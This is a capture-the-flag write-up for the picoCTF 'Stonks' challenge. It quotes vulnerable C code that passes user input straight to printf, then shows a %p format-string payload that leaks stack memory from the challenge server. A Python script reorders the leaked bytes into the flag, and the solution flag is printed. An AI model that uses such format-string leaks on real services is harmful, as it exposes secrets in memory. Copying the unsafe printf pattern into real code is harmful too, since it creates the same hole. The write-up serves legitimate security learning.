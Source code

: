 # Stonks

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`

## Hints
Okay, maybe I'd believe you if you find my API key.

![Screen Shot 2022-06-12 at 20 25 23](https://user-images.githubusercontent.com/83420725/173235421-61966e97-fcf0-4406-8be0-d4fe249a9652.png)


```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
> Notice the `printf(user_buf);`
    
    Welcome back to the trading app!
    What would you like to do?
    1) Buy some stonks!
    2) View my portfolio
    1
    Using patented AI algorithms to buy stonks
    Stonks chosen
    What is your API token?
    %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    Buying stonks with token:
    0x8f083900x804b0000x80489c30xf7f57d800xffffffff0x10x8f061600xf7f651100xf7f57dc7(nil)0x8f071800x30x8f083700x8f083900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffcc007d
    Portfolio as of Sun Jun 12 13:41:41 UTC 2022

    3 shares of EFSK
    1 shares of PRH
    7 shares of BB
    32 shares of PLA
    133 shares of CTB
    Goodbye!

The hex string that i receive

    0x8f083900x804b0000x80489c30xf7f57d800xffffffff0x10x8f061600xf7f651100xf7f57dc7(nil)0x8f071800x30x8f083700x8f083900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffcc007d
Decode the string after `nil` and I have the string look like:

    7¹Socip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½}

Script get flag:
```python 
flag = "ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}"
temp = ''
result = ''
for i in range(0, len(flag), 4):
    temp = flag[i:i+4]
    result += temp[::-1]
print (result)
   
```

> picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
